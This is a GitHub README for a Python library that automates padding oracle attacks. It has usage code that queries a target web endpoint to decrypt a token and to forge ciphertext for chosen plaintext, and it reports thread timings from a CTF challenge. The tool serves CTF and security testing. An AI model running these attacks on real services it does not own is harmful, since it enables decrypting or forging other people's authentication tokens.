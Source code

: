 # Padding Oracle Automation in Python

![Python Package Badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

This script automates padding oracle attacks in Python, offering efficient and threaded execution.

- [Padding Oracle Automation in Python](#padding-oracle-automation-in-python)
  * [Installation](#installation)
  * [Performance](#performance)
  * [Usage](#usage)
    + [Decryption](#decryption)
    + [Encryption](#encryption)
    + [Customized Logging](#customized-logging)
    + [Extras](#extras)
  * [Example](#example)
  * [To-Do](#to-do)
  * [License](#license)

## Installation

You can install the script using one of these methods:

- **Via PyPI:**
  ```shell
  pip3 install -U padding_oracle
  ```

- **Directly from GitHub:**
  ```shell
  pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
  ```

## Performance

The script's performance varies depending on the number of request threads. This was tested in a CTF web challenge:

| Request Threads | Time Taken  |
|-----------------|-------------|
| 1               | 17m 43s     |
| 4               | 5m 23s      |
| 16              | 1m 20s      |
| 64              | 56s         |

## Usage

### Decryption

When trying to decrypt a token like the one at `https://example.com/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`, this script assumes that the token is vulnerable to a padding oracle attack.

```python
from padding_oracle import decrypt, base64_encode, base64_decode
import requests

sess = requests.Session()  # Uses connection pooling
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    response = sess.get(url, params={'token': base64_encode(ciphertext)})
    if 'failed' in response.text:
        return False  # Token decryption failed
    elif 'success' in response.text:
        return True
    else:
        raise RuntimeError('Unexpected behavior')

ciphertext = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
assert len(ciphertext) % 16 == 0

plaintext = decrypt(
    ciphertext,
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Encryption

Below is an example demonstrating how to encrypt arbitrary bytes. For a detailed understanding of the process, please refer to [this Pull Request](https://github.com/djosix/padding_oracle.py/pull/4).

```python
from padding_oracle import encrypt

ciphertext = encrypt(
    b'YourTextHere', 
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Customized Logging

Both `encrypt` and `decrypt` allow user to inject a custom logger:

- **Disable Logging:**
  ```python
  from padding_oracle import nop_logger

  plaintext = decrypt(
      ...
      logger=nop_logger,
  )
  ```

- **Selective Logging:**
  ```python
  def logger(kind: str, message: str):
      if kind in ('oracle_error', 'solve_block_error'):
          print(f'[{kind}] {message}')

  plaintext = decrypt(
      ...
      logger=logger,
  )
  ```

### Extras

The script also includes PHP-like encoding and decoding functions:

```python
from padding_oracle.encoding import urlencode, urldecode, base64_encode, base64_decode
```

## Example

See the `example` folder.

## To-Do

- [ ] Support more padding schemes

## License

This script is distributed under the MIT license.
